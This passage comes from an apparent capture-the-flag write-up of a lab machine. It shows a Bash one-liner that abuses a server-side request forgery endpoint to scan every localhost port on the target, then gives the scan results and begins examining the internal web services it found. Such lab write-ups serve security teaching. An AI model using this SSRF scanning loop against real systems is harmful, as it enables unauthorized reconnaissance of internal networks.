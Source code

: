 This will loop over the numbers 0 to 65535. For each, it will submit `http://127.0.0.1:${i}` to the Kotarak browser, where `${i}` is the Bash variable. It will store the result in `$res`. It gets the length of `$res`, and if that’s longer than 0, it prints `${i}` and the first line of `$res` up to 100 characters.

Running this got through about 1000 ports per minute, so it got through the first 1000 ports pretty quickly, but the entire loop takes a while. I can start enumerating the lower ports right away, but I let it run to completion because this box already had a service hidden at tcp 60000 (and I had to step away from the computer for a bit anyway).

```

oxdf@parrot$ time for i in {1..65535}; do res=$(curl -s http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A${i}); len=$(echo $res | wc -w); if [ "$len" -gt "0" ]; then echo -n "${i}: "; echo $res | tr -d "\r" | head -1 | cut -c-100; fi; done
22: SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2 Protocol mismatch.
90: <!DOCTYPE> <html> <head> <title>Under Construction</title> </head> <bodyd> <p>This page is under con
110: <html> <head> <title> favorites / bookmark title goes here </title> </head> <body bgcolor="white" te
200: <b>Hello world!</b>
320: <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd"><html> <he
888: <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en"> <head> <meta http-equiv="content
-bash: warning: command substitution: ignored null byte in input
3306: 5.7.19-0ubuntu0.16.04.1 %t&Jz/a,X?JFLymysql_native_passwordot packets out of order
8080: <!DOCTYPE html><html><head><title>Apache Tomcat/8.5.5 - Error report</title><style type="text/css">H
60000: <!DOCTYPE html> <html> <head> <style> div.container { width: 100%; border: 1px solid gray; } header,

real    60m47.560s
user    8m4.942s
sys     10m12.692s

```

#### Enumerating Servers

I can step through the different ports identified above. SSH (22), Tomcat (8080, though interestingly no response from 8009), and 60000 (Apache) are the same services available to the outside. 3306 looks like MySQL, which makes sense for that port. I could play with trying to use Gopher to access it, though without creds, that seems like a longshot.

There are likely HTML pages on 90, 110, 200, 320, and 888. I’ll jump back to the 60000 webpage to check those out.

90 returns:

```

<!DOCTYPE>
<html>
<head>
<title>Under Construction</title>
</head>
<bodyd>
<p>This page is under construction. Please come back soon!</p>
</body>
</html>

```
